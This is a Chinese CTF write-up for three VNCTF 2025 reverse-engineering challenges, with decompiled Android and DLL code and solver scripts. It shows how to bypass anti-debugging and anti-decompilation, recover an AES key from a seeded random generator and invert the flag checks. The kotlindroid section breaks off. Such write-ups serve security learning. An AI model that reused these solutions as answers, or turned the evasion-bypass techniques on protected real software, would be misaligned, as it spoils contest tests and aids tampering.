


# VNCTF 2025

13th，太菜了，逆向最后一道题做不出来

## Reverse

### Hook Fish

jeb反编译得到main

~~~java
package com.example.hihitt;

import android.app.DownloadManager.Request;
import android.app.DownloadManager;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.IntentFilter;
import android.net.Uri;
import android.os.Bundle;
import android.os.Environment;
import android.util.Log;
import android.view.View.OnClickListener;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import android.widget.Toast;
import androidx.appcompat.app.AppCompatActivity;
import dalvik.system.DexClassLoader;
import java.io.File;
import java.util.Arrays;
import java.util.List;
import java.util.Random;

public class MainActivity extends AppCompatActivity {
    private BroadcastReceiver downloadCompleteReceiver;
    private long downloadID;
    private DownloadManager downloadManager;
    private File downloadedFile;
    String encodeText;

    public MainActivity() {
        this.downloadCompleteReceiver = new BroadcastReceiver() {
            @Override  // android.content.BroadcastReceiver
            public void onReceive(Context context, Intent intent) {
                long downloadedID = intent.getLongExtra("extra_download_id", -1L);
                if(MainActivity.this.downloadID == downloadedID) {
                    MainActivity.this.loadClass(MainActivity.this.encodeText);
                    MainActivity.this.fish_fade();
                }
            }
        };
    }

    private static void code(char[] arg3, int arg4) {
        if(arg4 >= arg3.length - 1) {
            return;
        }

        arg3[arg4] = (char)(arg3[arg4] ^ arg3[arg4 + 1]);
        arg3[arg4 + 1] = (char)(arg3[arg4] ^ arg3[arg4 + 1]);
        arg3[arg4] = (char)(arg3[arg4] ^ arg3[arg4 + 1]);
        MainActivity.code(arg3, arg4 + 2);
    }

    public String decode(String boy) {
        try {
            Class loadedClass = new DexClassLoader(new File(this.getExternalFilesDir(Environment.DIRECTORY_DOWNLOADS), "hook_fish.dex").getAbsolutePath(), this.getCacheDir().getAbsolutePath(), null, this.getClassLoader()).loadClass("fish.hook_fish");
            Object obj = loadedClass.newInstance();
            return (String)loadedClass.getMethod("decode", String.class).invoke(obj, boy);
        }
        catch(Exception e) {
            e.printStackTrace();
            return "Error";
        }
    }

    public String encode(String girl) {
        try {
            Class loadedClass = new DexClassLoader(new File(this.getExternalFilesDir(Environment.DIRECTORY_DOWNLOADS), "hook_fish.dex").getAbsolutePath(), this.getCacheDir().getAbsolutePath(), null, this.getClassLoader()).loadClass("fish.hook_fish");
            Object obj = loadedClass.newInstance();
            return (String)loadedClass.getMethod("encode", String.class).invoke(obj, girl);
        }
        catch(Exception e) {
            e.printStackTrace();
            return "Error";
        }
    }

    public static String encrypt(String arg8) {
        byte[] str1 = arg8.getBytes();
        int i;
        for(i = 0; i < str1.length; ++i) {
            str1[i] = (byte)(str1[i] + 68);
        }

        StringBuilder hexStringBuilder = new StringBuilder();
        int v4;
        for(v4 = 0; v4 < str1.length; ++v4) {
            hexStringBuilder.append(String.format("%02x", ((byte)str1[v4])));
        }

        char[] str3 = hexStringBuilder.toString().toCharArray();
        MainActivity.code(str3, 0);
        int i;
        for(i = 0; i < str3.length; ++i) {
            str3[i] = str3[i] >= 97 && str3[i] <= 102 ? ((char)(str3[i] - 49 + i % 4)) : ((char)(str3[i] + 55 + i % 10));
        }

        Log.d("encrypt: ", new String(str3));
        return new String(str3);
    }

    private void fish(String arg8) {
        File file = new File(this.getExternalFilesDir(Environment.DIRECTORY_DOWNLOADS), "hook_fish.dex");
        DownloadManager downloadManager = (DownloadManager)this.getSystemService("download");
        DownloadManager.Request request = new DownloadManager.Request(Uri.parse(arg8));
        request.setTitle("钓鱼");
        request.setDestinationUri(Uri.fromFile(file));
        request.setAllowedOverRoaming(false);
        request.setAllowedOverMetered(false);
        this.downloadID = downloadManager.enqueue(request);
        Toast.makeText(this, "Fishing......", 0).show();
    }

    private void fish_fade() {
        new File(this.getExternalFilesDir(Environment.DIRECTORY_DOWNLOADS), "hook_fish.dex").delete();
    }

    public void loadClass(String input0) {
        String input1 = this.encode(input0);
        DexClassLoader dLoader = new DexClassLoader(Uri.fromFile(new File(this.getExternalFilesDir(Environment.DIRECTORY_DOWNLOADS), "hook_fish.dex")).toString(), null, null, ClassLoader.getSystemClassLoader().getParent());
        try {
            Class loadedClass = dLoader.loadClass("fish.hook_fish");
            Object obj = loadedClass.newInstance();
            if(((Boolean)loadedClass.getMethod("check", new Class[]{String.class}).invoke(obj, new Object[]{input1})).booleanValue()) {
                Toast.makeText(this, "恭喜，鱼上钩了！", 0).show();
                return;
            }
        }
        catch(Exception e) {
            e.printStackTrace();
            return;
        }
    }

    @Override  // androidx.fragment.app.FragmentActivity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        this.setContentView(layout.activity_main);
        EditText editText = (EditText)this.findViewById(id.editTextText);
        String hookfish = this.getString(string.pool);
        this.downloadManager = (DownloadManager)this.getSystemService("download");
        ((Button)this.findViewById(id.download_button)).setOnClickListener(new View.OnClickListener() {
            @Override  // android.view.View$OnClickListener
            public void onClick(View view) {
                String inputText = editText.getText().toString();
                if(!inputText.isEmpty()) {
                    MainActivity.this.encodeText = MainActivity.encrypt(inputText);
                    MainActivity.this.fish(hookfish);
                    List fishTypes = Arrays.asList(new String[]{"鲈鱼", "鳕鱼", "甲鱼", "咸鱼", "金鱼", "鲮鱼", "鲅鱼", "鲫鱼", "山椒鱼", "鮰鱼"});
                    String v6 = "收获一条" + ((String)fishTypes.get(new Random().nextInt(fishTypes.size()))) + ",但是鱼逃走了";
                    Toast.makeText(MainActivity.this, v6, 0).show();
                    return;
                }

                Toast.makeText(MainActivity.this, "请先输入口令，并在联网条件下再钓鱼", 0).show();
            }
        });
        this.registerReceiver(this.downloadCompleteReceiver, new IntentFilter("android.intent.action.DOWNLOAD_COMPLETE"));
    }

    @Override  // androidx.appcompat.app.AppCompatActivity
    protected void onDestroy() {
        super.onDestroy();
        this.unregisterReceiver(this.downloadCompleteReceiver);
    }
}
~~~

fish函数加载了一个网址的dex，下下来得到

~~~java
package fish;

import java.util.HashMap;

public class hook_fish {
    private HashMap fish_dcode;
    private HashMap fish_ecode;
    private String strr;

    public hook_fish() {
        this.strr = "jjjliijijjjjjijiiiiijijiijjiijijjjiiiiijjjjliiijijjjjljjiilijijiiiiiljiijjiiliiiiiiiiiiiljiijijiliiiijjijijjijijijijiilijiijiiiiiijiljijiilijijiiiijjljjjljiliiijjjijiiiljijjijiiiiiiijjliiiljjijiiiliiiiiiljjiijiijiijijijjiijjiijjjijjjljiliiijijiiiijjliijiijiiliiliiiiiiljiijjiiliiijjjliiijjljjiijiiiijiijjiijijjjiiliiliiijiijijijiijijiiijjjiijjijiiiljiijiijilji";
        this.encode_map();
        this.decode_map();
    }

    public boolean check(String arg2) {
        return arg2.equals(this.strr);
    }

    public String decode(String arg6) {
        StringBuilder v0 = new StringBuilder();
        int v1 = 0;
        int v2 = 0;
        while(v2 < arg6.length() / 5) {
            int v4 = v1 + 5;
            v0.append(this.fish_dcode.get(arg6.substring(v1, v4)));
            ++v2;
            v1 = v4;
        }

        return v0.toString();
    }

    public void decode_map() {
        HashMap v0 = new HashMap();
        this.fish_dcode = v0;
        v0.put("iiijj", Character.valueOf('a'));
        this.fish_dcode.put("jjjii", Character.valueOf('b'));
        this.fish_dcode.put("jijij", Character.valueOf('c'));
        this.fish_dcode.put("jjijj", Character.valueOf('d'));
        this.fish_dcode.put("jjjjj", Character.valueOf('e'));
        this.fish_dcode.put("ijjjj", Character.valueOf('f'));
        this.fish_dcode.put("jjjji", Character.valueOf('g'));
        this.fish_dcode.put("iijii", Character.valueOf('h'));
        this.fish_dcode.put("ijiji", Character.valueOf('i'));
        this.fish_dcode.put("iiiji", Character.valueOf('j'));
        this.fish_dcode.put("jjjij", Character.valueOf('k'));
        this.fish_dcode.put("jijji", Character.valueOf('l'));
        this.fish_dcode.put("ijiij", Character.valueOf('m'));
        this.fish_dcode.put("iijji", Character.valueOf('n'));
        this.fish_dcode.put("ijjij", Character.valueOf('o'));
        this.fish_dcode.put("jiiji", Character.valueOf('p'));
        this.fish_dcode.put("ijijj", Character.valueOf('q'));
        this.fish_dcode.put("jijii", Character.valueOf('r'));
        this.fish_dcode.put("iiiii", Character.valueOf('s'));
        this.fish_dcode.put("jjiij", Character.valueOf('t'));
        this.fish_dcode.put("ijjji", Character.valueOf('u'));
        this.fish_dcode.put("jiiij", Character.valueOf('v'));
        this.fish_dcode.put("iiiij", Character.valueOf('w'));
        this.fish_dcode.put("iijij", Character.valueOf('x'));
        this.fish_dcode.put("jjiji", Character.valueOf('y'));
        this.fish_dcode.put("jijjj", Character.valueOf('z'));
        this.fish_dcode.put("iijjl", Character.valueOf('1'));
        this.fish_dcode.put("iiilj", Character.valueOf('2'));
        this.fish_dcode.put("iliii", Character.valueOf('3'));
        this.fish_dcode.put("jiili", Character.valueOf('4'));
        this.fish_dcode.put("jilji", Character.valueOf('5'));
        this.fish_dcode.put("iliji", Character.valueOf('6'));
        this.fish_dcode.put("jjjlj", Character.valueOf('7'));
        this.fish_dcode.put("ijljj", Character.valueOf('8'));
        this.fish_dcode.put("iljji", Character.valueOf('9'));
        this.fish_dcode.put("jjjli", Character.valueOf('0'));
    }

    public String encode(String arg5) {
        StringBuilder v0 = new StringBuilder();
        int v1;
        for(v1 = 0; v1 < arg5.length(); ++v1) {
            v0.append(((String)this.fish_ecode.get(Character.valueOf(((char)arg5.charAt(v1))))));
        }

        return v0.toString();
    }

    public void encode_map() {
        HashMap v0 = new HashMap();
        this.fish_ecode = v0;
        v0.put(Character.valueOf('a'), "iiijj");
        this.fish_ecode.put(Character.valueOf('b'), "jjjii");
        this.fish_ecode.put(Character.valueOf('c'), "jijij");
        this.fish_ecode.put(Character.valueOf('d'), "jjijj");
        this.fish_ecode.put(Character.valueOf('e'), "jjjjj");
        this.fish_ecode.put(Character.valueOf('f'), "ijjjj");
        this.fish_ecode.put(Character.valueOf('g'), "jjjji");
        this.fish_ecode.put(Character.valueOf('h'), "iijii");
        this.fish_ecode.put(Character.valueOf('i'), "ijiji");
        this.fish_ecode.put(Character.valueOf('j'), "iiiji");
        this.fish_ecode.put(Character.valueOf('k'), "jjjij");
        this.fish_ecode.put(Character.valueOf('l'), "jijji");
        this.fish_ecode.put(Character.valueOf('m'), "ijiij");
        this.fish_ecode.put(Character.valueOf('n'), "iijji");
        this.fish_ecode.put(Character.valueOf('o'), "ijjij");
        this.fish_ecode.put(Character.valueOf('p'), "jiiji");
        this.fish_ecode.put(Character.valueOf('q'), "ijijj");
        this.fish_ecode.put(Character.valueOf('r'), "jijii");
        this.fish_ecode.put(Character.valueOf('s'), "iiiii");
        this.fish_ecode.put(Character.valueOf('t'), "jjiij");
        this.fish_ecode.put(Character.valueOf('u'), "ijjji");
        this.fish_ecode.put(Character.valueOf('v'), "jiiij");
        this.fish_ecode.put(Character.valueOf('w'), "iiiij");
        this.fish_ecode.put(Character.valueOf('x'), "iijij");
        this.fish_ecode.put(Character.valueOf('y'), "jjiji");
        this.fish_ecode.put(Character.valueOf('z'), "jijjj");
        this.fish_ecode.put(Character.valueOf('1'), "iijjl");
        this.fish_ecode.put(Character.valueOf('2'), "iiilj");
        this.fish_ecode.put(Character.valueOf('3'), "iliii");
        this.fish_ecode.put(Character.valueOf('4'), "jiili");
        this.fish_ecode.put(Character.valueOf('5'), "jilji");
        this.fish_ecode.put(Character.valueOf('6'), "iliji");
        this.fish_ecode.put(Character.valueOf('7'), "jjjlj");
        this.fish_ecode.put(Character.valueOf('8'), "ijljj");
        this.fish_ecode.put(Character.valueOf('9'), "iljji");
        this.fish_ecode.put(Character.valueOf('0'), "jjjli");
    }
}
~~~

逻辑很简单，输入字符串先是+68、转16进制、交换字符、根据不同范围做不同处理、最后换表得到很长的ij字符串

~~~python
s = "jjjliijijjjjjijiiiiijijiijjiijijjjiiiiijjjjliiijijjjjljjiilijijiiiiiljiijjiiliiiiiiiiiiiljiijijiliiiijjijijjijijijijiilijiijiiiiiijiljijiilijijiiiijjljjjljiliiijjjijiiiljijjijiiiiiiijjliiiljjijiiiliiiiiiljjiijiijiijijijjiijjiijjjijjjljiliiijijiiiijjliijiijiiliiliiiiiiljiijjiiliiijjjliiijjljjiijiiiijiijjiijijjjiiliiliiijiijijijiijijiiijjjiijjijiiiljiijiijilji"
ij_dict = {"iiijj": "a",
    "jjjii": 'b',
"jijij": 'c',
"jjijj": 'd',
"jjjjj": 'e',
"ijjjj": 'f',
"jjjji": 'g',
"iijii": 'h',
"ijiji": 'i',
"iiiji": 'j',
"jjjij": 'k',
"jijji": 'l',
"ijiij": 'm',
"iijji": 'n',
"ijjij": 'o',
"jiiji": 'p',
"ijijj": 'q',
"jijii": 'r',
"iiiii": 's',
"jjiij": 't',
"ijjji": 'u',
"jiiij": 'v',
"iiiij": 'w',
"iijij": 'x',
"jjiji": 'y',
"jijjj": 'z',
"iijjl": '1',
"iiilj": '2',
"iliii": '3',
"jiili": '4',
"jilji": '5',
"iliji": '6',
"jjjlj": '7',
"ijljj": '8',
"iljji": '9',
"jjjli": '0'}
c = ""
for i in range(0, len(s), 5):
    c += ij_dict[s[i:i+5]]
print(c)
c = list(c.encode())
for i in range(len(c)):
    if c[i] > 55:
        c[i] -= (i % 10 + 55)
    else:
        c[i] += (49 - i % 4)
for i in range(0, len(c), 2):
    c[i], c[i+1] = c[i+1], c[i]
new_c = bytes.fromhex(bytes(c).decode())
for i in range(len(new_c)):
    print(chr(new_c[i]-68), end="")
~~~

### Fuko's starfish

核心逻辑在dll里，反调试很难绕过只能硬静态分析

里面有两处地方有反反编译，隐藏了真实函数，只需nop掉jnz和return，即可反编译

~~~c
void __noreturn sub_1800025F0()
{
  size_t i; // rdi
  __int64 v1; // rcx
  __int64 v2; // rax
  const char *v3; // rcx
  char v4[16]; // [rsp+20h] [rbp-60h] BYREF
  __int128 v5; // [rsp+30h] [rbp-50h]
  char Str[16]; // [rsp+90h] [rbp+10h] BYREF
  _BYTE v7[30]; // [rsp+A0h] [rbp+20h]
  __int128 v8; // [rsp+C0h] [rbp+40h]
  char v9; // [rsp+D0h] [rbp+50h]
  _BYTE v10[31]; // [rsp+D1h] [rbp+51h] BYREF
  char v11; // [rsp+F0h] [rbp+70h]
  __int128 v12; // [rsp+100h] [rbp+80h] BYREF
  unsigned __int8 v13; // [rsp+110h] [rbp+90h]

  *(_OWORD *)&v7[14] = *(__int128 *)((char *)&xmmword_18000A9C0 + 14);
  *(_OWORD *)v7 = xmmword_18000A9C0;
  *(_OWORD *)Str = xmmword_18000A9B0;
  for ( i = 0i64; strlen(Str) > i; ++i )
    Str[i] ^= 0x17u;
  puts(Str);
  sub_180002780(v1, v4);
  v11 = 0;
  v12 = 0i64;
  v13 = 0;
  *(_OWORD *)&v10[15] = v5;
  sub_180001650(&v10[15], &v12);
  v5 = 0i64;
  sub_180001650(v4, &v10[15]);
  v9 = v11;
  v8 = *(_OWORD *)&v10[15];
  *(_OWORD *)v10 = v12;
  *(_WORD *)&v10[16] = v13;
  v2 = 0i64;
  while ( *((_BYTE *)&v8 + 2 * v2) == byte_18000A890[2 * v2]
       && *((_BYTE *)&v8 + 2 * v2 + 1) == byte_18000A890[2 * v2 + 1] )
  {
    if ( ++v2 == 16 )
    {
      v3 = "right!";
      goto LABEL_10;
    }
  }
  v3 = "wrong";
LABEL_10:
  puts(v3);
  Sleep(0xFA0u);
  exit(0);
}
~~~

这里显然是比较的地方，byte_18000A890是密文，sub_180001650加密，里面有aes数组

~~~c
_BYTE *__fastcall sub_180001650(_BYTE *a1, _BYTE *a2)
{//...
  char Str[4]; // [rsp+BCh] [rbp-1DCh] BYREF
  int v147; // [rsp+C0h] [rbp-1D8h]
//...
  v144 = a2;
  v139 = a1;
  v145 = 0i64;
  v2 = byte_18000E1E0;
  v3 = byte_18000E1F0;
  v4 = byte_18000E1F2;
  v5 = byte_18000E200;
  v6 = byte_18000E204;
  v7 = byte_18000E210;
  v8 = byte_18000E950;
  v9 = byte_18000E220;
  LOBYTE(v138) = byte_18000E228;
  v125 = byte_18000E230;
  v126 = byte_18000E232;
  v128 = byte_18000E240;
  LOBYTE(v137) = byte_18000E244;
  LOBYTE(v130) = byte_18000E960;
  v127 = byte_18000E962;
  LOBYTE(v129) = byte_18000E970;
  pbDebuggerPresent = 0;
  CurrentProcess = GetCurrentProcess();
  CheckRemoteDebuggerPresent(CurrentProcess, &pbDebuggerPresent);
  if ( pbDebuggerPresent )
  {
    v131 = v5;
    v132 = v4;
    v133 = v3;
    v134 = v9;
    v124 = v2;
    v11 = v8;
    v135 = v7;
    v136 = v6;
    v12 = v126;
    v13 = v125;
    v14 = v127;
    LOWORD(v147) = 7481;
    *(_DWORD *)Str = 964328031;
    for ( i = 0i64; strlen(Str) > i; ++i )
      Str[i] ^= 0x17u;
    sub_1800010B0((char *)"%s");
    v16 = v14;
    v17 = v138;
    v18 = v12;
    v19 = v136;
    v20 = v128;
    v21 = v135;
    v22 = v11;
    v23 = v124;
    v24 = v134;
    v25 = v133;
    v26 = v132;
    v27 = v131;
  }
  else
  {
    v124 = v2 ^ 0x17;
    v28 = v3 ^ 0x17;
    v29 = v4 ^ 0x17;
    v27 = v5 ^ 0x17;
    v21 = v7 ^ 0x17;
    v22 = v8 ^ 0x17;
    v24 = v9 ^ 0x17;
    v17 = v138 ^ 0x17;
    v13 = v125 ^ 0x17;
    v19 = v6 ^ 0x17;
    v18 = v126 ^ 0x17;
    v20 = v128 ^ 0x17;
    LOBYTE(v137) = v137 ^ 0x17;
    LOBYTE(v130) = v130 ^ 0x17;
    v16 = v127 ^ 0x17;
    LOBYTE(v129) = v129 ^ 0x17;
    v23 = v124;
    v25 = v28;
    v26 = v29;
  }
  Str[0] = v27;
  Str[1] = v26;
  Str[2] = v25;
  Str[3] = v23;
  v147 = v24 | (v22 << 8) | (v21 << 16) | (v19 << 24);
  LODWORD(v148) = v20 | (v18 << 8) | (v13 << 16) | (v17 << 24);
  v30 = v16;
  v31 = byte_18000A8B0[v16];
  v32 = (unsigned __int8)v129 | (v30 << 8);
  v33 = byte_18000A8B0[(unsigned __int8)v130];
  v34 = byte_18000A8B0[(unsigned __int8)v137];
  HIDWORD(v148) = v32 | ((unsigned __int8)v130 << 16) | ((unsigned __int8)v137 << 24);
  v35 = *(_DWORD *)Str ^ (v34 | (byte_18000A8B0[(unsigned __int8)v129] << 8) | (v31 << 16) | (v33 << 24));
  //aes enc
}
~~~

可以发现反调试，真实逻辑在else里，key都异或了0x17；key来源于很多字节，交叉引用发现另一处反反编译，处理下

~~~c
srand(0x1BF52u);
  v17 = rand();
  byte_18000E1E0 = v17 + v17 / 255;
  v18 = rand();
  byte_18000E1F0 = v18 + v18 / 255;
  v19 = rand();
  byte_18000E1F2 = v19 + v19 / 255;
  v20 = rand();
  byte_18000E200 = v20 + v20 / 255;
  v21 = rand();
  byte_18000E204 = v21 + v21 / 255;
  v22 = rand();
  byte_18000E210 = v22 + v22 / 255;
  v23 = rand();
  byte_18000E950 = v23 + v23 / 255;
  v24 = rand();
  byte_18000E220 = v24 + v24 / 255;
  v25 = rand();
  byte_18000E228 = v25 + v25 / 255;
  v26 = rand();
  byte_18000E230 = v26 + v26 / 255;
  v27 = rand();
  byte_18000E232 = v27 + v27 / 255;
  v28 = rand();
  byte_18000E240 = v28 + v28 / 255;
  v29 = rand();
  byte_18000E244 = v29 + v29 / 255;
  v30 = rand();
  byte_18000E960 = v30 + v30 / 255;
  v31 = rand();
  byte_18000E962 = v31 + v31 / 255;
  v32 = rand();
  byte_18000E970 = v32 + v32 / 255;
~~~

有seed值了即可求key值

~~~c++
#include<iostream>
using namespace std;

int main() {
    srand(0x1BF52);
    int v;
    unsigned char c;
    for (int i = 0; i < 16; i++) {
        v = rand();
        c = v+v/255;
        printf("%02x", c);	// 1ef2eafc7f2662a1a62c931f86fc6fc5
    }
}
~~~

异或处理下

~~~python
s = [0x78, 0x7C, 0x1D, 0x7E, 0x63, 0x64, 0x37, 0x63, 0x7F, 0x72, 0x37, 0x7B, 0x76, 0x64, 0x63, 0x37, 0x70, 0x76, 0x7A, 0x72, 0x36, 0x1D, 0x67, 0x7B, 0x6D, 0x37, 0x7E, 0x79, 0x67, 0x62, 0x63, 0x37, 0x63, 0x7F, 0x72, 0x37, 0x71, 0x7E, 0x79, 0x76, 0x7B, 0x37, 0x7C, 0x72, 0x6E, 0x2D, 0x5f, 0x7a, 0x7a, 0x39, 0x39, 0x1d]
for i in s:
    print(chr(i^0x17), end="")

s = [252, 234, 0x45, 0x11, 0x11, 98, 0x81, 0x19, 0x19, 0x19, 0x14, 0x45, 197, 111, 252, 0x81]
# s = [0x19, 0x14, 0x45, 0x11, 0x19, 0x81, 98, 0x11, 0x45, 0x14, 0x19, 0x19, 0x81, 252, 111, 197]
s = bytes.fromhex("1ef2eafc7f2662a1a62c931f86fc6fc5")
for i in s:
    print(hex(i^0x17)[2:].zfill(2), end="")
# 09e5fdeb683175b6b13b840891eb78d2
~~~

cyberchef解密aes

### kotlindroid

searchkt里是核心逻辑（只留下有用的代码）

~~~java
public final class SearchActivityKt {
    private static final Brush gradient;

    static {
        List v1 = CollectionsKt.listOf(new Color[]{Color.box-impl(Color.Companion.getRed-0d7_KjU()), Color.box-impl(Color.Companion.getBlue-0d7_KjU()), Color.box-impl(Color.Companion.getGreen-0d7_KjU())});
        SearchActivityKt.gradient = Companion.horizontalGradient-8A-3gB4$default(Brush.Companion, v1, 0.0f, 0.0f, 0, 14, null);
    }

    private static final Unit Button$lambda$7$lambda$6(String $text, Context $context) {
        Intrinsics.checkNotNullParameter($text, "$text");
        Intrinsics.checkNotNullParameter($context, "$context");
        byte[] key2 = {0x7B, 0x71, 109, 99, 97, 0x7A, 0x7C, 105};
        byte[] $this$map$iv = {0x76, 99, 101, 0x7E, 0x7C, 0x72, 110, 100};
        Collection destination$iv$iv = (Collection)new ArrayList($this$map$iv.length);
        int v8 = 0;
        int v9;
        for(v9 = 0; v9 < $this$map$iv.length; ++v9) {
            destination$iv$iv.add(Byte.valueOf(((byte)($this$map$iv[v9] ^ 23))));
        }

        byte[] modifiedKey1 = CollectionsKt.toByteArray(((Collection)(((List)destination$iv$iv))));
        Collection destination$iv$iv = (Collection)new ArrayList(key2.length);
        while(v8 < key2.length) {
            destination$iv$iv.add(Byte.valueOf(((byte)(key2[v8] ^ 8))));
            ++v8;
        }

        SearchActivityKt.check($text, $context, ArraysKt.plus(modifiedKey1, CollectionsKt.toByteArray(((Collection)(((List)destination$iv$iv))))));
        return Unit.INSTANCE;
    }

    public static final GCMParameterSpec access$getGCMParameterSpec(byte[] iv) {
        return SearchActivityKt.getGCMParameterSpec(iv);
    }

    private static final void check(String text, Context context, byte[] key) {
        SearchActivityKt.sec(context, new SecretKeySpec(key, "AES"), text, (String arg1) -> SearchActivityKt.check$lambda$14(context, arg1));
    }

    private static final Unit check$lambda$14(Context $context, String flag) {
        Intrinsics.checkNotNullParameter($context, "$context");
        Intrinsics.checkNotNullParameter(flag, "flag");
        if(Intrinsics.areEqual(flag, "MTE0NTE0HMuJKLOW1BqCAi2MxpHYjGjpPq82XXQ/jgx5WYrZ2MV53a9xjQVbRaVdRiXFrSn6EcQPzA==")) {
            Toast.makeText($context, "Congratulations! :)", 0).show();
            return Unit.INSTANCE;
        }

        Toast.makeText($context, "Wrong :(", 0).show();
        return Unit.INSTANCE;
    }

    private static final Cipher createCipher() {
        Cipher v0 = Cipher.getInstance("AES/GCM/NoPadding");
        Intrinsics.checkNotNullExpressionValue(v0, "getInstance(...)");
        return v0;
    }

    // String Decryptor: 1 succeeded, 0 failed
    private static final byte[] generateIV() {
        byte[] v1 = "114514".getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(v1, "getBytes(...)");
        return v1;
    }

    private static final GCMParameterSpec getGCMParameterSpec(byte[] iv) {
        return new GCMParameterSpec(0x80, iv);
    }

    private static final void sec(Context context, SecretKeySpec secretKey, String text, Function1 onResult) {
        BuildersKt.launch$default(CoroutineScopeKt.CoroutineScope(((CoroutineContext)Dispatchers.getIO())), null, null, ((Function2)new SearchActivityKt.sec.1(secretKey, text, onResult, null)), 3, null);
    }
}

~~~

可以发现是aes gcm加密

~~~java
public final class JNI {
    public static final int $stable;
    public static final JNI INSTANCE;
    private static final Lazy at$delegate;

    static {
        JNI.INSTANCE = new JNI();
        System.loadLibrary("ezcompose");
        JNI.at$delegate = LazyKt.lazy(() -> JNI.at_delegate$lambda$0());
        JNI.$stable = 8;
    }

    private static final String at_delegate$lambda$0() {
        return JNI.INSTANCE.native_natget(new byte[]{0x7B, 0x71, 109, 99, 97, 0x7A, 0x7C, 105});
    }

    public final String getAt() {
        return (String)JNI.at$delegate.getValue();
    }

    private final native String native_natget(byte[] arg1) {
    }
}

final class SearchActivityKt.sec.1 extends SuspendLambda implements Function2 {
    final Function1 $onResult;
    final SecretKeySpec $secretKey;
    final String $text;
    int label;

    SearchActivityKt.sec.1(SecretKeySpec arg2, String arg3, Function1 arg4, Continuation arg5) {
        this.$secretKey = arg2;
        this.$text = arg3;
        this.$onResult = arg4;
        super(2, arg5);
    }

    @Override  // kotlin.coroutines.jvm.internal.BaseContinuationImpl
    public final Continuation create(Object arg5, Continuation arg6) {
        return (Continuation)new SearchActivityKt.sec.1(this.$secretKey, this.$text, this.$onResult, arg6);
    }

    @Override  // kotlin.coroutines.jvm.internal.BaseContinuationImpl
    public final Object invokeSuspend(Object arg20) {
        Object v1 = IntrinsicsKt.getCOROUTINE_SUSPENDED();
        switch(this.label) {
            case 0: {
                try {
                    Cipher cipher = SearchActivityKt.createCipher();
                    byte[] iv = {49, 49, 52, 53, 49, 52};
                    GCMParameterSpec parameterSpec = SearchActivityKt.getGCMParameterSpec(iv);
                    cipher.init(1, ((Key)this.$secretKey), ((AlgorithmParameterSpec)parameterSpec));
                    byte[] v8_1 = JNI.INSTANCE.getAt().getBytes(Charsets.UTF_8);
                    Intrinsics.checkNotNullExpressionValue(v8_1, "getBytes(...)");
                    cipher.updateAAD(v8_1);
                    Charset v9 = StandardCharsets.UTF_8;
                    Intrinsics.checkNotNullExpressionValue(v9, "UTF_8");
                    byte[] v8_2 = this.$text.getBytes(v9);
                    Intrinsics.checkNotNullExpressionValue(v8_2, "getBytes(...)");
                    byte[] cipherText = cipher.doFinal(v8_2);
                    Intrinsics.checkNotNull(cipherText);
                    byte[] encryptedData = ArraysKt.plus(iv, cipherText);
                    String flag = Base64.encode$default(((Base64)Base64.Default), encryptedData, 0, 0, 6, null);
                    CoroutineContext v6_1 = (CoroutineContext)Dispatchers.getMain();
                   
                //...
}

~~~

